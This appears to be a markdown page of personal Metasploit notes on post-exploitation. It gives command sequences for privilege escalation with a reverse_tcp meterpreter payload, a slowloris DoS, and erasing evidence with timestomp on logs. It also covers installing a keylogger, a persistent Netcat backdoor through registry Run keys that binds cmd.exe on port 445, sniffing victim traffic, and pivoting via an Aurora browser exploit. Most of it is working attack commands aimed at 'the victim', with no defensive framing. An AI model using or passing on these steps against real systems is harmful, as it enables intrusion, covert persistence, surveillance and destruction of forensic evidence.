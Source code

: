 ### Suggestion for post-exploits
Once you have a meterpreter, use `use post/multi/recon/local_exploit_suggester` and set the meterpreter session. Then run and wait for the analysis.
The results will tell you which are plausible exploits for priviledges escalation for example.

### Priviledge escalation
You can run escalation exploits on already existing meterpreter sessions with low access priviledges. Check with the `local_exploit_suggester` suggester what is the right exploit. For example:
```
use exploit/linux/local/glibc_ld_audit_dso_load_priv_esc
set payload linux/x86/meterpreter/reverse_tcp
set session 2
run
```
At this point you shall receive `root` access and you wreak havoc.
Another technique for priviledge escalation consists in using the low level account to upload files to the victim machine and run these files. Some of these files may need to be compiled (if written in c for example). Once these files are injected, they usually open a port: prepare your `exploit/multi/handler` on metasploit to receive the connection.

### DoS
Check with **nmap** the vulnerabilities to DoS attacking tools. 
For example, `use auxiliary/dos/http/slowloris` and set the RHOST to the victim. *Use Nmap to scan for DoS vulnerabilities.*

## MSF post exploitation

 - Clear the logs (`use priv` once meterpreter is running and then `timestomp` on the logs)
 - Enumerate the system protections: `use post/linux/gather/enum_protections`
 - Enumerate the software versions to then search for them in the `searchsploit`: `use post/multi/gather/enum_software_versions`
 - You can install a keylogger once the meterpreter session is on: `use post/windows/capture/keylog_recorder` .
 - Install a `Netcat` backdoor: use meterpreter to upload netcat to the victim `upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32` and then set the *registry* to run Netcat at every starp-ups: 
     - `reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run`
     - `reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 445 -e cmd.exe'`
     - `reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc` (set the backdoor at port 445)
     - After rebooting the victim system run this on the msf console: `nc -v VICTIM_IP 445`
 - Can even run a remote desktop with `post/windows/manage/enable_rdp`
 - **Packet sniffing**: first get the meterpreter console, e.g. `use exploit/windows/smb/ms08_067_netapi`. Then,  `set PAYLOAD windows/meterpeter/reverse_tcp`. Recall: `LHOST` is the local (attacker) host, while `RHOST` is the remote (victim) host. Once run, the meterpreter session will start. Then `use sniffer` when you are on the meterpreter and:
     - Get the interface `sniffer_interfaces`
     - Get the packets o one interface and dump them at */tmp/all.cap* via `sniffer_start 2` and `sniffer_dump 2 /tmp/all.cap` 
     - Stop the sniffer `sniffer_stop 2` and release it `sniffer_release 2`
 - Pivoting. First prepare a **reverse_tcp** (i.e. prepare a malicious server so that when someone connects to it, the firewall will allow the connection.):
     - `use exploit/windows/browser/ms10_002_aurora`
     - `set URIPATH /`
     - `set PAYLOAD windows/meterpreter/reverse_tcp` this step requires a LHOST to be set
     - `set LHOST 192.168.1.101` (this is the *local server* where we receive the shell!)
     - `exploit -j` (the exploit run in background). once the victims connects, we get full access
         - check the sessions: `sessions -l`
         - decide with which interact directly, e.g. `sessions -i 1`. At this moment the meterpreter is launched
         - check the local ip with `ipconfig`